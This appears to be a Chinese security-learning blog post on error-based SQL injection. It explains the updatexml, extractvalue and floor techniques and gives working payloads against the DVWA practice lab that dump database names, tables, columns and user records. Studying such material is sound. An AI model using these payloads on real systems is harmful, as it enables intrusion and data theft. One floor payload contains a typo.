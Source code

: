 ```yaml
---
title: "SQL注入篇"
date: 2025-04-19T17:30:00+08:00
draft: false
author: "Hinoatari"
---
```


# SQL 注入篇

## SQL 注入常用函数

```markdown
1.联合注入函数:
concat()、concat_ws()、group_concat() 2.布尔盲注函数:
length()、left()、right()、substr()、mid()、ascii()、ord() 3.时间盲注函数:
sleep()、if() 4.报错注入函数:
floor()、exp()、updatexml()、extractvalue()
```

## (一)注入类型

SQL 注入通常分为两种类型：数字型和字符型

### (1)注入类型为数字型时，SQL 查询语句通常为：

` select * from users where id = x`

判断方法：

```sql
1. ?id = 1 and 1 = 1 --+ 若无报错，继续下一步
2. ?id = 1 and 1 = 2 --+ 若报错， 则注入类型为数字型
```

### (2)注入类型为字符型时，SQL 查询语句通常为：

`select * from users where id = '1'`

判断方法：

```sql
1. ?id = 1' and '1' = '1 --+ 若无报错，继续下一步
2. ?id = 1' and '1' = '2 --+ 若报错， 则注入类型为字符型
```

## (二)报错注入

### 一、SQL 报错注入常用函数：

**updatexml（）**、**extractvalue（）**、**floor（）**

**(1) updatexml（）函数**

- updatexml（）使用不同的 xml 标记匹配和替换 xml 块，用于改变文档中符合条件的节点的值

- 基本语法：`UPDATEXML(xml_target, xpath_expr, new_val)`，`xml_target`是要修改的 XML 类型的数据，`xpath_expr`是一个 XPath 表达式，用于指定要修改的节点位置，`new_val`是一个新的节点值，用于替换当前节点的值

- 若 xpath_string 格式出现错误，mysql 会报出 xpath 语法错误，即（xpath syntax）

- 例如：`select * from users where id = 1 and (updatexml(1,0x7e,3));`0x7e 是字符~，不属于 xpath 语法格式，因此会出现 xpath 语法错误

**(2) extractvalue（）函数**

- extractvalue（）用于从 XML 文档中提取信息

- 基本语法：`ExtractValue(XML_fragment, XPath_string)`，其中`XML_fragment`是 XML 格式的字符串，`XPath_string`是用于定位 XML 文段中特定数据的 XPath 表达式

- 若 xpath_string 格式出现错误，mysql 会报出 xpath 语法错误，即（xpath syntax）

- 例如：`select * from users where id = 1 and (extractvalue(1,0x7e));`

**(3) floor（）函数**

- floor（）利用`select count(*),(floor(rand(0)*2)) as x from 表名 group by x;`导致数据库报错，通过 concat 函数连接注入语句与 floor(rand(0)\*2)函数，实现将注入结果与报错信息回显
- count(\*) 是一个聚合函数，用来计算表中所有行的数量，floor(rand(0)\*2)产生的固定序列为：**01101**，结合 group by 会产生一个虚拟表。
- 原理：rand 伪随机函数与**order by**或**group by**函数的冲突，例如 floor(rand(0)\*2)一开始计算得到了 0，group by 根据 0 分类统计，在写入要返回的虚表时 floor(rand(0)\*2)还要计算一次结果，这次结果却是 1，导致了冲突。

### 二、updatexml 函数实战（基于 dvwa 靶场）

1.爆数据库和用户名：`1' and updatexml(1,concat(0x7e,database(),0x7e,user()),1)#`

输出结果： ![测试结果](images/sql注入篇/1.png)

2.爆当前数据库的表信息：`1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1)#`

输出结果： ![测试结果](images/sql注入篇/2.png)

3.爆 dvwa 数据库中的 user 表的字段信息：`1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'dvwa' and table_name = 'users'),0x7e),1)#`

输出结果： ![测试结果](images/sql注入篇/3.png)

4.爆数据库内容：`1' and updatexml(1,concat(0x7e,(select group_concat(first_name,0x7e,last_name) from dvwa.users),0x7e),1)#`

输出结果： ![测试结果](images/sql注入篇/4.png)

### 三、extractvalue 函数实战（基于 dvwa 靶场）

1.爆数据库和用户名：`1' and extractvalue(1,concat(0x7e,database(),0x7e,user()))#`

输出结果： ![测试结果](images/sql注入篇/1.png)

2.爆当前数据库的表信息：`1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database())))#`

输出结果： ![测试结果](images/sql注入篇/2.png)

3.爆 dvwa 数据库中的 user 表的字段信息：`1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'dvwa' and table_name = 'users')))#`

输出结果： ![测试结果](images/sql注入篇/3.png)

4.爆数据库内容：`1' and extractvalue(1,concat(0x7e,(select group_concat(first_name,0x7e,last_name) from dvwa.users),0x7e))#`

输出结果： ![测试结果](images/sql注入篇/4.png)

### 四、floor 函数实战 (基于 dvwa 靶场)

1.判断是否存在报错注入：`1' union select count(*),floor(rand(0)*2) x from information_schema.tables group by x#`

输出结果： ![测试结果](images/sql注入篇/5.png)

确认存在报错注入

2.爆当前数据库名：`1' union select count(*),concat(floor(rand(0)*2),database()) x from information_schema.schemata group by x #`

输出结果： ![测试结果](images/sql注入篇/6.png)

可以看到数据库名为 dvwa，1 是随机数

3.爆当前数据库表信息：`1' union select count(*),concat(floor(0)*2,0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() limit 0,1)) x from information_schema.schemata group by x#`

输出结果： ![测试结果](images/sql注入篇/7.png)

4.爆数据库表中字段信息：`1' union select count(*),concat(floor(rand(0)*2),0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users' limit 0,1)) x from information_schema.schemata group by x#`

输出结果： ![测试结果](images/sql注入篇/8.png)

5.爆数据库内容：`1' union select count(*),concat(floor(rand(0)*2),(select group_concat(first_name,last_name) from dvwa.users)) x from information_schema.schemata group by x#`

输出结果： ![测试结果](images/sql注入篇/9.png)
